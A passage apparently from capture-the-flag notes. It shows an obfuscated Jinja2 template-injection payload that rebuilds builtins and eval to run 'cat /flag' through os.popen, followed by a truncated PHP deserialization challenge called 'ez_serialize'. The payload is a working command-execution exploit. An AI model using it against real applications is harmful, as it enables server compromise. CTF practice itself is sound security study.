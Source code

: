 ```
{% set zero = (self|int) %}{% set one = (zero**zero)|int %}{% set two = (zero-one-one)|abs %}{% set four = (two*two)|int %}{% set five = (two*two*two)-one-one-one %}{% set three = five-one-one %}{% set nine = (two*two*two*two-five-one-one) %}{% set seven = (zero-one-one-five)|abs %}{% set space = self|string|min %}{% set point = self|float|string|min %}{% set c = dict(c=aa)|reverse|first %}{% set bfh = self|string|urlencode|first %}{% set bfhc = bfh~c %}{% set slas = bfhc%((four~seven)|int) %}{% set yin = bfhc%((three~nine)|int) %}{% set xhx = bfhc%((nine~five)|int) %}{% set right = bfhc%((four~one)|int) %}{% set left = bfhc%((four~zero)|int) %}{% set but = dict(buil=aa,tins=dd)|join %}{% set imp = dict(imp=aa,ort=dd)|join %}{% set pon = dict(po=aa,pen=dd)|join %}{% set so = dict(o=aa,s=dd)|join %}{% set ca = dict(ca=aa,t=dd)|join %}{% set flg = dict(fl=aa,ag=dd)|join %}{% set ev = dict(ev=aa,al=dd)|join %}{% set red = dict(re=aa,ad=dd)|join %}{% set bul = xhx~xhx~but~xhx~xhx %}{% set ini = dict(ini=aa,t=bb)|join %}{% set glo = dict(glo=aa,bals=bb)|join %}{% set itm = dict(ite=aa,ms=bb)|join %}{% set pld = xhx~xhx~imp~xhx~xhx~left~yin~so~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}{% for f,v in (self|attr(xhx~xhx~ini~xhx~xhx)|attr(xhx~xhx~glo~xhx~xhx)|attr(itm))() %}{% if f == bul %}{% for a,b in (v|attr(itm))() %}{% if a == ev %}{{b(pld)}}{% endif %}{% endfor %}{% endif %}{% endfor %}
```



# ez_serialize 

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class A{
    public $class;
    public $para;
    public $check;
    public function __construct()
    {
        $this->class = "B";
        $this->para = "ctfer";
        echo new  $this->class ($this->para);
    }
    public function __wakeup()
    {
        $this->check = new C;
        if($this->check->vaild($this->para) && $this->check->vaild($this->class)) {
            echo new  $this->class ($this->para);
        }
        else
            die('bad hacker~');
    }

}
class B{
    var $a;
    public function __construct($a)
    {
        $this->a = $a;
        echo ("hello ".$this->a);
    }
}
class C{

    function vaild($code){
        $pattern = '/[!|@|#|$|%|^|&|*|=|\'|"|:|;|?]/i';
        if (preg_match($pattern, $code)){
            return false;
        }
        else
```